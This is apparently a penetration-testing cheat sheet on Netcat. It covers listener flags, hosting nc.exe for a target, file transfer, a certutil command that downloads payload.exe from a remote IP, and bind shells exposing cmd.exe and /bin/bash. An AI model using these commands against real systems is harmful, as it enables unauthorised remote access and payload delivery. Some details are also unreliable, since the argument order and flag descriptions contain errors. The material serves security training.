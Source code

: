 ## **Intro:**
Netcat is a networking utility used to read and write data to network connections using TCP or UDP.


Netcat utilizes a client-server communication architecture with 2 modes:

- Client mode: Used to connect to any TCP/UDP port as well as Netcat listener (listener).
- Server mode: Used to listen for connections from clients on a specific port.

Netcat most used for: 
1. Banner Grabbing.
2. Port Scanning.
3. Transferring Files.
4. Bind/Reverse Shells.



# **How to send nc.exe to our target:**

There's a EB for windows on Kali\:

	/usr/share/windows-binaries/nc.exe

we can host this file and download it to our target but you need to be in that folder:

	python -m SimpleHTTPServer 80



# **Setup a listener:**

`-n` No dns reselution
`-v` Verbose
`-l` Listen
`-p` specify a port to listen
`-e` Specify a program to be executed (E.g. in windows we want 'cmd.exe' or 'powershell.exe' to get a shell)


	nc -nvlp <port_to_listen_on> <ip>



# **Send and receive files with nc:**

Setup a listener at the receiving system (windows) 
- use the `>` to indicate you want to receive

		nc.exe -nvlp 7777 > <any_name_for_file>

Now connect to that port on the windows IP and specify the file you want to send when connecting: 
- use the `<` to indicate you want to send

		nc -nv 7777 <windows_ip> < <Actual_filename_to_send>


### OR with Python:


	certutil -urlcache -f http://10.10.45.3/payload.exe payload.exe

---

# **Setup a Bind Shell:**

On a windows system:
>`-e` used to specify a program to be executed when anyone connect to this listener... 

	nc.exe -nvlp 7777 -e cmd.exe



On a Linux system:
> `-s` Used to specify a shell to be executed when anyone connect to this Listener...

	nc -nvlp 1234 -c /bin/bash
